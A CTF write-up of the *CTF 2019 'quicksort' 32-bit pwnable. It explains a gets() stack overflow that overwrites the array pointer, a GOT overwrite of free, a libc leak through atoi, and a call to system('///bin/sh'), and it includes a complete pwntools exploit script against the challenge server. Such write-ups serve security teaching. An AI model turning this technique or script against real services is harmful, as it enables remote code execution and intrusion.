

# quicksort

*CTF 2019


This is a pwnable based on the Quicksort algorithm.

### Reconnaissance

Problem description:


```
I’m very quick!

$ nc 34.92.96.238 10000
```

Here's a simple interaction with the server:

```
how many numbers do you want to sort?
17
the 1th number:4
the 2th number:8
the 3th number:2
the 4th number:3
the 5th number:1
the 6th number:0
the 7th number:-5
the 8th number:99999
the 9th number:1234
the 10th number:40
the 11th number:29
the 12th number:98
the 13th number:42
the 14th number:30
the 15th number:0
the 16th number:0
the 17th number:1
Here is the result:
-5 0 0 0 1 1 2 3 4 8 29 30 40 42 98 1234 99999
```

The pwnable is a 32-bit Linux binary. Checksec shows:

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   quicksort
```

There's an alarm called, so I start by disabling it so I can debug the binary.

A quick look at this with IDA and Ghidra shows a buffer overflow vulnerability:

```
void FUN_08048816(void)

{
  int *piVar1;
  int iVar2;
  int in_GS_OFFSET;
  char local_30;
  undefined local_2f;
  undefined local_2e;
  undefined local_2d;
  undefined local_2c;
  undefined local_2b;
  undefined local_2a;
  undefined local_29;
  undefined local_28;
  undefined local_27;
  undefined local_26;
  undefined local_25;
  undefined local_24;
  undefined local_23;
  undefined local_22;
  undefined local_21;
  int local_20;
  int local_1c;
  int local_18;
  void *local_14;
  int local_10;

  local_10 = *(int *)(in_GS_OFFSET + 0x14);
  local_2f = 0;
  local_2e = 0;
  local_2d = 0;
  local_2c = 0;
  local_2b = 0;
  local_2a = 0;
  local_29 = 0;
  local_28 = 0;
  local_27 = 0;
  local_26 = 0;
  local_25 = 0;
  local_24 = 0;
  local_23 = 0;
  local_22 = 0;
  local_21 = 0;
  local_30 = 0;
  local_20 = 0;
  puts("how many numbers do you want to sort?");
  __isoc99_scanf(&DAT_08048aa6,&local_20);
  getchar();
  local_14 = malloc(local_20 << 2);
  local_1c = 0;
  while (local_1c < local_20) {
    printf("the %dth number:",local_1c + 1);
    gets(&local_30);
    piVar1 = (int *)(local_1c * 4 + (int)local_14);
    iVar2 = atoi(&local_30);
    *piVar1 = iVar2;
    local_1c = local_1c + 1;
  }
  FUN_08048770((int)local_14,0,local_20 + -1);
  puts("Here is the result:");
  local_18 = 0;
  while (local_18 < local_20) {
    printf("%d ",*(undefined4 *)((int)local_14 + local_18 * 4));
    local_18 = local_18 + 1;
  }
  puts("");
  free(local_14);
  if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

There's a buffer overflow vulnerability, but there's also a canary on the stack. I checked the quicksort algorithm and it's implemented correctly. Next I noticed that I think I can overwrite the pointer to the array of integers to be sorted, which means that perhaps I could do something like sort the entries in the Global Offset Table.

Well first of all I need to be able to return to main so that I can leak a libc address. The only place where I can do such a leak is right before the program returns, when the results of the sort routine are printed to `stdout`. My first thought is to just overwrite the GOT address of `free` with the address of `main`. That should work. To do that, I need to sort a single number. That number is just whatever I plan to write to the GOT plus some text that `atoi` will ignore and the overwrite of A*.

```
0xfffbe910:	0xfffbe92c	0x00000001	0xfffbe958	0x080488c5
0xfffbe920:	0xf7ecece0	0x00000000	0x00002000	0x00000000
0xfffbe930:	0x00000000	0x00000000	0x00000000	0x00000001
0xfffbe940:	0x00000000	0x00000000	0x088ec160	0x81440f00
0xfffbe950:	0x00000001	0x00000000	0xfffbe968	0x080489e4
```
now goes to

```
0xfffbe910:	0xfffbe92c	0x00000001	0xfffbe958	0x080488c5
0xfffbe920:	0xf7ecece0	0x00000000	0x00002000	0x08048816
0xfffbe930:	0x41414141	0x41414141	0x41414141	0x00000001
0xfffbe940:	0x42424242	0x42424242	0x0804a018	0x81440f00
0xfffbe950:	0x00000001	0x00000000	0xfffbe968	0x080489e4
```

Great! The canary is intact and now I'm writing the address of main to the GOT address of free. And it works! I return to main.

Next, I figured out that I can leak a libc address by reading an array of size two from an array starting at the very end of the Global Offset Table (containing a reference to `atoi`). As part of this I have to do a single write as well, so I wrote any positive number as the second entry. Since the `libc` addresses are all negative integers (starting with `0xf7`), quicksort doesn't overwrite the `atoi` reference with my positive integer. That lets me calculate the offset to `system`.

I then want to make two writes. The first is to place `/bin/sh` in the `.bss` section. I then want to overwrite the reference to `free` (now `main`) in the GOT with a reference to `system`, and as part of the same set of writes, have the array `A` now point to the `.bss` section containing `/bin/sh`. That worked. One last problem is that I actually used `/bin//sh` as my string, but that caused quicksort to rearrange it into `//sh/bin`! Each integer's place after being sorted depends on the last character in the string, which is the highest-order byte for the integer due to little-endianness. So, I rearranged my argument to `system` to be `///bin/sh;tt`.

That gives me the flag!



Here's the exploit code:

```
from pwn import *
from time import sleep

local = False

if local:
	p = process('./quicksort')
	DELAY = 0.1
else:
	p = remote('34.92.96.238',10000)
	DELAY = 0.5

if local:
	gdb.attach(p, '''
		break *0x08048901
		continue
		''')

sleep(DELAY)


# Okay, let's write to an arbitary location.
def write_int_to_addr(n, dst):
	p.recvuntil("sort?")
	p.send('1\n')
	p.recvuntil("number:")

	payload = ""
	payload += str(n)
	payload += "A"*(16 - len(str(n)))#7
	payload += p32(0x1) # total n to read in
	payload += p32(0x0) # current index of number to read in
	payload += "B"*4
	payload += p32(dst)
	payload += "\n" # should get replaced with \x00 so terminator canary isn't damaged
	p.send(payload)

def leak_atoi_addr():
	p.recvuntil("sort?")
	p.send('2\n')
	p.recvuntil("number:")
	payload = ""
	payload += str(GOT_FREE_ADDR) # Any old positive number. This will work because libc addresses are negative.
	payload += "A"*(16 - len(str(GOT_FREE_ADDR)))#7
	payload += p32(0x2) # total n to read in
	payload += p32(0x1) # current index of number to read in
	payload += "B"*4
	payload += p32(GOT_ATOI_ADDR)
	payload += "\n" # should get replaced with \x00 so terminator canary isn't damaged
	p.send(payload)
	sleep(DELAY)
	p.recvuntil("result:\n")
	result = p.recvuntil(" ")
	#print("original result is " + str(result) + "\n")
	result = int(result,10) & (2**32-1)
	log.info("leaked libc address is " + str(result) + "\n")
	log.info("which is " + hex(result) + "\n")
	return result

MAIN_ADDR = 0x08048816
GOT_FREE_ADDR = 0x0804a018
GOT_ATOI_ADDR = 0x0804a038

write_int_to_addr(n=MAIN_ADDR, dst=GOT_FREE_ADDR)

# This will put a huge integer in the space above the last GOT entry and sort the last
# GOT entry and that integer, then return them, thus leaking a libc address.
ATOI_ADDR = leak_atoi_addr()

if local:
	#ATOI_OFFSET = REDACTED
	#SYSTEM_OFFSET = REDACTED
else:
	ATOI_OFFSET = 0x2d250
	SYSTEM_OFFSET = 0x3ada0

log.info("libc base addr = " + hex(ATOI_ADDR - ATOI_OFFSET) + "\n")
SYSTEM_ADDR = ATOI_ADDR - ATOI_OFFSET + SYSTEM_OFFSET
log.info("system addr = " + hex(SYSTEM_ADDR) + "\n")

# Thought for finishing this out: put "/bin/sh" in the bss section,
# then overwrite free with system
# and have the pointer to A point to that string when free is called
write_int_to_addr(0x622f2f2f, GOT_ATOI_ADDR+0x8) # ///b
write_int_to_addr(0x732f6e69, GOT_ATOI_ADDR+0xc) # in/s
write_int_to_addr(0x74743b68, GOT_ATOI_ADDR+0x10) # h;tt


p.recvuntil("sort?")
p.send('1\n')
p.recvuntil("number:")
n = SYSTEM_ADDR - (1 << 32) # convert to negative number
payload = ""
payload += str(n)
payload += "A"*(16 - len(str(n)))#7
payload += p32(0x2) # total n to read in
payload += p32(0x0) # current index of number to read in
payload += "B"*4
payload += p32(GOT_FREE_ADDR)
payload += "\n" # should get replaced with \x00 so terminator canary isn't damaged
p.send(payload)

# Still have to send another number and in so doing overwrite the pointer
# to the A array with a pointer to the bss section, so that when we call
# free we call system('/bin/sh')
p.recvuntil("number:")
n = 0x732f6e69
payload = ""
payload += str(n)
# "134514710" # MAIN_ADDR in ASCII
payload += "A"*(16 - len(str(n)))#7
payload += p32(0x2) # total n to read in
payload += p32(0x1) # current index of number to read in
payload += "B"*4
payload += p32(GOT_ATOI_ADDR+0x8)
payload += "\n" # should get replaced with \x00 so terminator canary isn't damaged
p.send(payload)

p.interactive()

#*CTF{welcome}
```

### Comparison to other approaches

[Auxy233](https://github.com/Auxy233/writeups/blob/master/2019/2019-04-28-StarCTF.md#quicksort) leaks the canary, then performs the exploit using a ROP chain. [zer0pts](https://ptr-yudai.hatenablog.com/entry/2019/04/29/122753#Pwn-155-quicksort) quite cleverly bypasses the stack protection by overwriting `__stack_chk_fail` in the GOT with a `ret` gadget. [This write-up], from what I gather, overwrites the `free` pointer in the Global Offset Table with one to `printf`, then uses the fact that `free` is applied to a pointer to a buffer with content under the user's control to leak a `libc` address. Then the leaked `libc` address is used to compute the address of a One Gadget, jump to it, and leak `system`. There are quite a lot of ways to solve this particular challenge, really interesting!
